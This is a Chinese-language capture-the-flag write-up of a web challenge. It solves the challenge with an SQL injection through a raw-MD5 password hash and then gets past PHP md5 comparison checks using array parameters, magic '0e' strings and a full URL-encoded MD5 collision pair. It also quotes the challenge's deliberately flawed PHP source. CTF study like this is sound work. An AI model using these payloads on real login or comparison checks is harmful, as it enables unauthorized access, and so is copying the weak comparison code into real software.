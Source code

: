 # 知识点：

# 1. 信息收集，响应报文头观察

# 2. md5处理数组报错，绕过

# 3. MD5碰撞



1. 进入界面很懵逼，各种后台扫描也没有什么源码，备份之类的，找不到思路

后面看wp发现，响应头有提示。。。

![](images/3C9B80733B2249D8AC37F4F8215EFD1Bclipboard.png)



2. password经过了md5的加密，联想到实验吧一个题可以md5之后，含有or造成sql注入

![](images/88CFA4E7C772414081F6EAFC96719971clipboard.png)



```javascript
select * from 'admin' where password=''or'6�]��!r,��b'
```

此时成了永真。达到了sql注入目的



3.然后提示/levels91.php页面的存在

查看网页发现源码：

```javascript
<!--
$a = $GET['a'];
$b = $_GET['b'];

if($a != $b && md5($a) == md5($b)){
    // wow, glzjin wants a girl friend.
-->
```



这里有三种方法绕过，

3.1 数组绕过md5无法处理数组，会返回假，两个假相等达到绕过目的

payload:

```javascript
?a[]=1&b[]=2
```



3.2 md5碰撞

```javascript
?a=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2&b=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2 
```



3.3 两个加密后0e开头的字符串

```javascript
?a=QNKCDZO&b=240610708
```



然后有提示存在levell14.php页面



4. 发现levell14.phpd源码

```javascript
<?php
error_reporting(0);
include "flag.php";

highlight_file(__FILE__);

if($_POST['param1']!==$_POST['param2']&&md5($_POST['param1'])===md5($_POST['param2'])){
    echo $flag;
}
```



发现变成了强等于

MD5碰撞即可

```javascript
post:
    param1=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2&param2=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2
```

